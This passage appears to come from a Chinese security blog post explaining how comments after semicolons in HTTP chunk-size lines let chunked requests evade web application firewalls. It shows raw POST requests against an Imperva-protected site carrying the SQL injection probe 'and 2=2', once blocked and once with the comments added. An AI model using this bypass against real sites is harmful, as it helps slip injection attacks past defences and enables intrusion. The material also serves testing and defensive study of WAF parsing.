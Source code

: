 通过阅读规范发现分块传输可以在长度标识处加上分号“;”作为注释，如：

```
9;kkkkk
1234567=1
4;ooo=222
2345
0
(两个换行)
```

几乎所有可以识别Transfer-Encoding数据包的WAF，都没有处理分块数据包中长度标识处的注释，导致在分块数据包中加入注释的话，WAF就识别不出这个数据包了。

现在我们在使用了Imperva应用防火墙的网站测试常规的分块传输数据包：

```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1
d
9
&a=1    and    
3
2=2
0
（两个换行）
```

返回的结果如下图所示。

[![img](https://p0.ssl.qhimg.com/dm/1024\_509\_/t01e68aae3729de0934.png)](https://p0.ssl.qhimg.com/dm/1024\_509\_/t01e68aae3729de0934.png)

可以看到我们的攻击payload “and 2=2”被Imperva的WAF拦截了。

这时我们将分块传输数据包加入注释符。

```
POST /xxxxxx.jsp HTTP/1.1
......
Transfer-Encoding: Chunked

9
xxxxxxxxx
9
xx=xxxxxx
9
xxxxxxxxx
1;testsdasdsad
d
9;test
&a=1    and    
3;test44444
2=2
0
(两个换行)
```
